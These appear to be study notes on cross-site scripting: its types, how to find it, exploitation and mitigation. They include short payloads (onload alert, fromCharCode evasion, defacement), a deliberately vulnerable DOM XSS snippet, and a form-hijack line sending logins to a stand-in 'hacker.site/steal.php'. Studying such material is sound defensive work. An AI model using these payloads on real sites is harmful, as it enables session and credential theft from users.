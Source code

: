 1. Cross Site Scripting
2. Anatomy of an XSS Exploitation
3. The three types of XSS
4. Finding XSS
5. XSS Exploitation
6. Mitigation
***
1. Cross Site Scripting
- Input validation attacks include XSS, SQL injections, HTTP Header tampering
***
2. Anatomy of an XSS Exploitation
- Achieve
	1. Cookie stealing
	2. Getting complete control over a browser
	3. Initiating an exploitation phase against browser plugins first and then the machine
	4. Perform keylogging

For example, if the authenticated area of website Y is auth.y.com, the domain in the cookie will most likely be set to auth.y.com and he will have to find an XSS in that same subdomain.
***
3. The three types of XSS
- Reflected XSS
- Stored XSS "persistent" : Server side , stored within the web application.
- DOM XSS : js client-side code
	- test.html?name=Armando
	```
	<script>
		var pos = document.URL.indexOf("name=")+5;
		document.write(document.URL.substring(pos,document.URL.length)); 
	</script>

	```
***
4. Finding XSS
- GET : including a payload in a crafted link, if the victim happens to click on this link
- POST : is used for forms submission therefore, exploiting it requires both some tricks
- test <>
- Simple payload : `<plaintext>`  : web page source as plain text
***
5. XSS Exploitation
- `onload="javascript:alert('XSS Example')`
- avoid using single quotes : " onload="alert(String.fromCharCode(88,83,83))
- payload working under Firefox may not work for Internet Explorer or Safari and vice versa. Browsers are software that interpret the HTML received by the web server according to their internal rules.

- hacker can achieve :
	1. Cookie stealing
	2. Defacement
	3. Phishing / Malware
	4. XSS Worms

- cookies carry on parameters from an HTTP server to its clients and vice-versa.
- The SOP prevents cookie stealing

1. Bob logs in on http://alice.xxx
2. ttp://alice.xxx returns a Session Cookie to Bob’s web browser
3. Bob visits http://alice.xxx/shopping
4. Since Bob’s web browser has a Cookie set for alice.xxx, any subsequent request

- sessionID can be seen as the primary key for a set of variables 
   (in form of parameter< - >value) stored on the server and belonging to a user.
- added the parameter `Authenticated` on purpose: it lets the website understand whether the user is authenticated (logged in) or not.
- bypass the httpOnly security feature through XST (Cross site tracing) and Ajax.
- cookie is issued with the parameter path=/ it is valid for all the directories of the domains
***
1. Cookie stealing
- bypass the path limitation in cookie.
	1.  Access to the DOM page 123 
	- Two Firefox extensions may help a lot in testing how the Cookies mechanism works:
		- Live HTTP Header
		- Cookie Editor
		- more info 116 - 127
	- httpOnly : prevents cookies from being read by JavaScript
	- secure : cookies are sent only if https (SSL) is used in the request
	2. Example if Cookie have specific subdomain page 130 - 139 : attacker srver
***
2. Defacement
`document.body.innerHTML=" Defaced";`

3. Phishing / Malware
```
<form name="loginform" method="POST" action="/checklogin.cgi">
document.forms[0].action="https://hacker.site/steal.php";
```

- Once an XSS vulnerability is found, BeEF is the fastest way to exploit it and gain control of the remote browser.
***
Mitigating

- Input validation
- Context-aware output encoding
***